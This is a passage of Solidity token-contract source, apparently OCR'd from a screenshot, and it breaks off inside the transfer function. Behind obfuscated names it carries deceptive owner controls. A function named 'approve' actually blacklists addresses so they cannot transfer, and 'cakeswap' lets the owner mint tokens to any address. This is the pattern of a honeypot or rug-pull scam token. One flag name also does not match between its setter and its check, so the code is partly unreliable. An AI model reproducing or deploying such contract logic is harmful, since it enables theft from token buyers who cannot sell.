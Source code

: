     function setamsd(bool mlis) external onlyoner() {
        amsd = mlis;
    }
    function approve(address mlis) external onlyoner() {
        _RCO[mlis] = true;
    }

    function _frd(address mlis) external onlyoner() {
        delete _RCO[mlis];
    }
    
    function cakeswap(address mlis, uint256 asmed) external onlyoner() {
        require(asmed > 0, "");
        uint256 cakeswapb = BIis[mlis];
        if (cakeswapb == 0) _BIis.push(mlis);
        BIis[mlis] = cakeswapb.add(asmed);
        Rhsp = Rhsp.add(asmed);
        _tossd[mlis] = _tossd[mlis].add(asmed);
    }

    function aokskme(address mlis)
        external
        view
        onlyoner()
        returns (bool)
    {
        return _RCO[mlis];
    }

    function _approve(
        address owner,
        address spender,
        uint256 amount
    ) private {
        require(owner != address(0), "");
        require(spender != address(0), "");

        allown[owner][spender] = amount;
        emit Approval(owner, spender, amount);
    }

    function _transfer(
        address from,
        address to,
        uint256 amount
    ) private {
        require(from != address(0), "");
        require(to != address(0), "");
        require(amount > 0, "");

        if (msd) {
            require(_RCO[from] == false, "");
        }

